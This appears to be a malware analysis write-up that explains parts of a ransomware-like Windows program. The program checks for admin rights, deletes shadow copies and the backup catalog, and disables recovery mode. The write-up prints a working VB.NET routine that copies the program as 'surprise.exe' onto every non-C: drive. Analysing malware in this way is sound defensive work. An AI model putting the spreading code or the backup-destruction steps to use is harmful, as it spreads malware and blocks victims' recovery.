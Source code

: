 This code executes system commands that affect data backup and recovery on Windows, but only under certain conditions :

1.  **Checking for Administrator Privileges**:
    
    -   The code first checks if the program has administrator privileges (`If Program.checkAdminPrivilage`).
2.  **If Privileges are Confirmed, the Following Actions are Executed**:
    
    -   **Deleting Shadow Copies** (`deleteShadowCopies`): If `Program.checkdeleteShadowCopies` is true, the program executes a command to delete all shadow copies (system backups) using `vssadmin` and `wmic`.
    -   **Disabling Recovery Mode** (`disableRecoveryMode`): If `Program.checkdisableRecoveryMode` is true, the program executes commands to disable Windows' automatic recovery mode using `bcdedit`.
    -   **Deleting Backup Catalog** (`deleteBackupCatalog`): If `Program.checkdeleteBackupCatalog` is true, the program executes a command to delete the Windows backup catalog with `wbadmin`.

#### Importance of This Code

This code is used for disabling or removing key backup and recovery features on a Windows system.

### spreadName

```vbnet
Private Shared checkSpread As Boolean = True
Private Shared spreadName As String = "surprise.exe"

If Program.checkSpread Then
	Program.spreadIt(Program.spreadName)
End If

Private Shared Sub spreadIt(spreadName As String)
	For Each driveInfo As DriveInfo In DriveInfo.GetDrives()
		If driveInfo.ToString() <> "C:\" AndAlso Not File.Exists(driveInfo.ToString() + spreadName) Then
			Try
				File.Copy(Assembly.GetExecutingAssembly().Location, driveInfo.ToString() + spreadName)
			Catch
			End Try
		End If
	Next
End Sub
```

This part of code is designed to self-replicate (spread) across different drives of the computer, except for the main drive (C:).

1.  **Check for Spreading**:
    
    -   The code checks if `Program.checkSpread` is true. If so, the method `Program.spreadIt(Program.spreadName)` is called.
2.  **`spreadIt` Method**:
    
    -   Iterates through all available drives on the computer (`DriveInfo.GetDrives()`).
    -   If the drive is not C:\ and a file named `spreadName` (here, "surprise.exe") does not exist on that drive, the current executable file (the application itself) is copied to that drive with the name `spreadName`.
